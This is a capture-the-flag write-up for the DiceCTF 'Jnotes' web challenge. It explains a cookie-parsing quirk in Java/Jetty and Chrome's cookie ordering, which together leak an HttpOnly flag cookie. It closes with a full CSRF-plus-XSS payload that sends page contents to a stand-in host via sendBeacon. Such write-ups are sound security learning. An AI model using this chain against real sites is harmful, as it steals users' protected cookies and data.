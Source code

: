 # Jnotes

## Description

I made this note site before I learned about XSS... can you break it?

Thankfully my cookies are HttpOnly

- **Author** : arxenix
- **Category** : Web
- **Points** : 396
- **Solves** : 6


## Solution 

### Understanding the challenge

This was a java challenge where we can create notes and that notes will stored in cookies. We have setnote and getnote functions which will set the note in cookie and take the note from cookie

```java
    public static String getNote(Context ctx) {
        var note = ctx.cookie("note");
        if (note == null) {
            setNote(ctx, DEFAULT_NOTE);
            return DEFAULT_NOTE;
        }
        return URLDecoder.decode(note, StandardCharsets.UTF_8);
    }

    public static void setNote(Context ctx, String note) {
        note = URLEncoder.encode(note, StandardCharsets.UTF_8);
        ctx.cookie(new Cookie("note", note, "/", -1, false, 0, true));
    }
```

We also have a `/create` endpoint where we can set a new note

```java
app.post("/create", ctx -> {
            var note = ctx.formParam("note");
            setNote(ctx, note);
            ctx.redirect("/");
        });
```

The note is displayed on the home page without any filters so it's just plain XSS. The admin will also visit any page so we can get csrf and set a new note and get XSS on the admin side too. Till now everything is alright. The catch is that both the cookies are [HttpOnly](https://owasp.org/www-community/HttpOnly)

- So we can't access the cookies using JS
- There is no page displaying the flag cookie
- There is just home page which displays note cookie

### Java Cookie Parsing

Java Parse cookies weirdly. Maybe many other web servers too. Here this challenge uses [javalin](https://javalin.io/) which uses [jetty](https://www.eclipse.org/jetty/)

So when a cookie starts with a double quotes `"` and doesn't close it, it will go on and will take the value of that cookie until there is a closing double quotes.

So if we have three cookies

```
note="a
FLAG=flag{}
a=b"
```
Java will take the value of cookie `note` as `a; FLAG=flag{}; a=b`. Now we can use this to get the flag value into the note cookie and displaying it on the page. But we need to get the cookies in this order.

### Browser Cookie Parsing

Now some interesting facts about cookies in browsers that we use to solve this challenge

- We can create empty cookies using `document.cookies="=value"`

![empty](/dicectf23-writeups/jnotes/images/empty.png)

Now the cookie header will be sent like:

![header](/dicectf23-writeups/jnotes/images/empty-cookie-header.png)

Now, even if we can't create a new `note` cookie as its [HttpOnly](https://owasp.org/www-community/HttpOnly), we can create an empty cookie with value `note="` to bypass this

![cookie](/dicectf23-writeups/jnotes/images/note-cookie.png)

![note](/dicectf23-writeups/jnotes/images/cookie-note.png)

Now the header will be sent like this

![note-cookie-header](/dicectf23-writeups/jnotes/images/note-cookie-header.png)

Here the our `note` cookie is sent last. We need it to be the first cookie. So chrome basically orders cookies based on these rules

- Cookies with longer path are listed before cookies with shorter path.
- Cookies which are edited least recently are listed before cookies which are edited most recently.

Here the `FLAG` cookie will be the first cookie as it is the least editted cookie and it has the longest path `/`. Now to make our cookie first, we can change the path of our `note` cookie to be `//` and increase the path length.

```js
document.cookie='=note=";path=//';
```

![cookie-path](/dicectf23-writeups/jnotes/images/cookie-path.png)

Now the textarea will have the flag value

![textarea](/dicectf23-writeups/jnotes/images/textarea.png)

Now we can just open an `iframe` with url `https://jnotes.mc.ax//` and get its content. 

```js
document.cookie='=note=";path=//';
const frame = document.createElement('iframe');
frame.src = "https://jnotes.mc.ax//";
document.body.appendChild(frame);
frame.onload = () => {
    navigator.sendBeacon("https://your.domain.com",frame.contentWindow.document.body.innerHTML);
}
```
We need to set this as admins `not` cookie. We can do that with [csrf](https://portswigger.net/web-security/csrf)

### Final Payload

```html
<html>
  <body>
    <form method="POST" action="https://jnotes.mc.ax/create">
      <input id="p" name="note" value="" >
    </form>
    <script>
      document.querySelector("#p").value = `</textarea>
      <\x73cript>
      document.cookie='=note=";path=//';
      const frame = document.createElement('iframe');
      frame.src = "https://jnotes.mc.ax//";
      document.body.appendChild(frame);
      frame.onload = () => {
        navigator.sendBeacon("https://your.domain.com",frame.contentWindow.document.body.innerHTML);
        }
      </\x73cript>`;
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**Flag**: `dice{c0ok1e_m0nSt3r_1s_jeal0us_of_y0ur_sk1lLs}`
